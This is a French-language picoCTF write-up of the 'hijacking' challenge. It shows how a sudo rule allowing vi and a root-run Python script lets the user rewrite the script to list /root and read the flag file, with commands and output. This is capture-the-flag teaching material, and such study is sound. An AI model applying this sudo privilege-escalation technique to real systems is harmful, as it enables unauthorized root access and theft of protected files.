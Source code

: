 # hijacking

## Enoncé
Catégorie : [Binary Exploitation](../)

Points : 200

Tags : `privilege_escalation`

Description :
> Getting root access can allow you to read the flag.  
> Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.  
> `saturn.picoctf.net xxxxx`  
> `Username: picoctf`  
> `Password: xxxxxx`

Hints :
1. Check for Hidden files
2. No place like Home:)


## Approche

Après s'être connecté au serveur, on examine les fichiers présents dans le HOME directory du user `picoctf` :
```bash
picoctf@challenge:~$ ls -al
total 16
drwxr-xr-x 1 picoctf picoctf   20 Mar 18 17:25 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Mar 18 17:25 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
```

Le contenu du fichier `.server.py` est le suivant :
```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Quand on essaie de l'exécuter (`python3 .server.py`) une erreur indique que `ping` n'existe pas.

Chose intéressante, `.server.py` appartient au user `root`. 


## Solution

Si on examine les droits `sudo` pour le user `picoctf`, on s'aperçoit qu'en plus de pouvoir exécuter le script `.server.py`, on peut également utiliser l'éditeur `vi` :

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

On a donc la possibilité :
* d'exécuer le script `.server.py` en tant que `root`
* d'en modifier le contenu

On modifie donc le script en 2 temps, afin de pouvoir lister les fichiers présents dans le HOME directory du user `root`, puis d'afficher le contenu du fichier contenant le flag :

```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ls /root/.* " )
response = os.system("cat /root/.flag.txt " )
```

Puis on le lance via `sudo` :
```bash
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
/root/.bashrc  /root/.flag.txt  /root/.profile

/root/.:

/root/..:
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
picoCTF{pYth0nn_libraryH!j@CK!n9_xxxxxxxx}
```
